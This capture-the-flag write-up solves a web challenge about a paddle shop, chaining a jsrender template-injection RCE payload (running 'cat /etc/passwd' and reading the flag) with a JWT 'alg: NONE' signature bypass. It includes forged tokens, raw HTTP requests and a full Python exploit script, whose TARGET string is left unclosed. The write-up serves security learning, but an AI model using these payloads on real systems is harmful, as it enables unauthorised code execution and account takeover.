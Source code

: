 ## Didactic Octo Paddle :: Medium

#### Scenario

```
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river.
You must hack into the paddle shop's system to obtain information on the relic's location.
Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
```

#### Solve

![](/images/didactic-source-tree.png)

The challenge begins with a login prompt.  

![](/images/didactic-login.png)

While looking at the routes defined in the `index.js` file, we stumble upon a `/register` route that let's us create a user.  

![](/images/didactic-register.png)

We create a user.  

![](/images/didactic-user-created.png)

We can then login and see the store:  

![](/images/didactic-webshop.png)

It seems like they're selling litteral paddles.  
It is a webshop.  

##### Obtaning RCE

There is an admin page at `/admin`, this page lists the existing users.  

Here is the code of the `admin.jsrender` file:  

```html
<!DOCTYPE html>
<html lang="en">

	<!--- //snip // --->

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
    </ul>
  </div>
</body>

</html>
```

Here is the code for the `/admin` route.  

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

There is actually an SSTI vulnerability here.  
The `jsrender.templates` function templates the given string.  
This can actually lead to RCE as detailed in this article:  

- https://appcheck-ng.com/template-injection-jsrender-jsviews
- https://www.jsviews.com/#htmltag

```http
POST /register HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.143.81:30500/register
Content-Type: application/json
Origin: http://138.68.143.81:30500
Content-Length: 40
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MTQ5NDYyLCJleHAiOjE2NzkxNTMwNjJ9.0_s2fX-jd31nc6fNFQwRZktx-UQm9GnBxK8CvsOct2k

{"username":"{{:7*7}}","password":"gh0st"}
```

This request will cause 49 to appear on the admin's page.  
Now, one question arises, is admin a bot or do we have to elevate ?  

```javascript
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

This works, it gets RCE on my local instance.  
Now time to figure out the admin situation.  

##### Obtaining Admin

While reading the source for `AdminMiddleware.js`, I found a weird condition on the JWT's `alg` value.  
Here is the condition:  

```javascript
// alg == none --> Login
// alg == HS256 --> decode with secret
// else --> Just decode i guess ?

    if (decoded.header.alg == 'none') {
        return res.redirect("/login");
    } else if (decoded.header.alg == "HS256") {
        const user = jwt.verify(sessionCookie, tokenKey, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res.status(403).send("You are not an admin");
        }
    } else {
        const user = jwt.verify(sessionCookie, null, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res
                .status(403)
                .send({ message: "You are not an admin" });
        }
    }
```

Maybe I can dodge signature validation ?  

Something like a default value for it, or specifying an unsafe algorithm.  

While tinkering with this condition locally, I found an authentication bypass.  

The condition is that the `decoded.header.alg` value equals the string `'none'`.  
There could be a way to bypass this, if the underlying library normalizes the `alg` values coming in the `verify` function.  

This is how we bypass it, we simply specify the `alg` as `'NONE'` instead.  
This goes through to the `else`, which decodes the value and treats the token as valid.  

Using this, we can craft an administrator token.  

Here is our JWT:  

```json
{"alg":"NONE","typ":"JWT"}{"id":1,"iat":1679153124,"exp":1679156724}
```

`alg`: `"NONE"` will bypass the condition.  
`id`: 1 represents the administrator user.  

We encode it: 
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.
```

HERE WE GOOOOO:
```http
GET /admin HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.;
Upgrade-Insecure-Requests: 1

```
  
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1020
Date: Fri, 24 Mar 2023 01:45:03 GMT
Connection: close

<!DOCTYPE html>

//snip //
```

Now that we can visit the admin page, we put it all together and create a malicious user to extract the flag.  

#### Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://127.0.0.1:1337
ADMIN_ENDPOINT = "/admin"
AUTH_BYPASS_SESSION = "eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9."
REGISTER_ENDPOINT = "/register"
JSRENDER_SSTI = \
        "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}"


if __name__ == "__main__":
    s = requests.Session()
    r = requests.post(TARGET + REGISTER_ENDPOINT, json={"username": JSRENDER_SSTI, "password": "O0ops"})
    s.cookies.set("session", AUTH_BYPASS_SESSION, domain="127.0.0.1")
    flag = s.get(TARGET + ADMIN_ENDPOINT)
    print(flag.text)
```

